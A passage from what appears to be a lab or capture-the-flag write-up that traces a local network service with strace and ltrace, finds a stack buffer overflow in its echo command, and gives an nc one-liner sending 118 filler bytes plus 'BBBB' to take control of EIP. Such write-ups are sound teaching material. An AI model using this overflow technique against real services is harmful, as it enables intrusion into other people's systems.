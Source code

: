 ```bash
clone(child_stack=0, flags=CLONE_CHILD_CLEARTID|CLONE_CHILD_SETTID|SIGCHLD, child_tidptr=0) = 2537
close(4)                                = 0
accept(3, Process 2537 attached
 <unfinished ...>
[pid  2537] write(1, "Processing client: pid: 2537 soc"..., 39Processing client: pid: 2537 socket: 4
) = 39
[pid  2537] close(3)                    = 0
[pid  2537] send(4, "fash$ ", 6, 0)     = 6
[pid  2537] select(5, [4], NULL, NULL, {10, 0}) = 1 (in [4], left {9, 990649})
[pid  2537] recv(4, "echo AAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 8191, 0) = 306
[pid  2537] send(1094795585, "echo: AAAAAAAAAAAAAAAAAAAAAAAAAA"..., 308, 0) = -1 EBADF (Bad file descriptor)
[pid  2537] --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
[pid  2537] +++ killed by SIGSEGV (core dumped) +++
<... accept resumed> 0xffaed358, [16])  = ? ERESTARTSYS (To be restarted if SA_RESTART is set)
--- SIGWINCH {si_signo=SIGWINCH, si_code=SI_KERNEL} ---
accept(3,
```

We can see following information:

* `ltrace` tells us the flow of consecutive library calls:
  * Fill memory space at `0xff8861a0` of size `8192` with zero byte characters.
  * Receive `8191` bytes from file descriptor `4` (Most likely our client connection) and store it into `0xff8861a0`
  * Locate the character ` ` (space) in our input (`strchr`) and compare the preceding characters with `echo` (`strcmp`)
  * Fill memory space at `0xff886070` of size `100` with zero byte characters
  * Write "echo " + input again into a buffer (most likely the last address `0xff886070`)
  * Determine the length of the resulting string with `strlen` and send back to us
  * Stack Overflow is happening when providing too much input
* `strace` tells us that we tried to access the address `0x41414141` (`si_addr`), which triggered a Segfault Trap `SIGSEGV`:
  * `SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141}`

After playing around with several offsets, we find that we need `118` bytes to overwrite `EIP`:

```bash
$ p -c 'print "echo "+"A"*118+"BBBB"' | nc localhost 9000
fash$
```

`strace -f srv` output (look at `si_addr`):

```bash
[...]
[pid  2987] close(3)                    = 0
[pid  2987] send(4, "fash$ ", 6, 0)     = 6
[pid  2987] select(5, [4], NULL, NULL, {10, 0}) = 1 (in [4], left {9, 994064})
[pid  2987] recv(4, "echo AAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 8191, 0) = 128
[pid  2987] send(2570, "echo: AAAAAAAAAAAAAAAAAAAAAAAAAA"..., 130, 0) = -1 EBADF (Bad file descriptor)
[pid  2987] --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x42424242} ---
[pid  2987] +++ killed by SIGSEGV (core dumped) +++
<... accept resumed> 0xffeb7018, [16])  = ? ERESTARTSYS (To be restarted if SA_RESTART is set)
--- SIGWINCH {si_signo=SIGWINCH, si_code=SI_KERNEL} ---
```
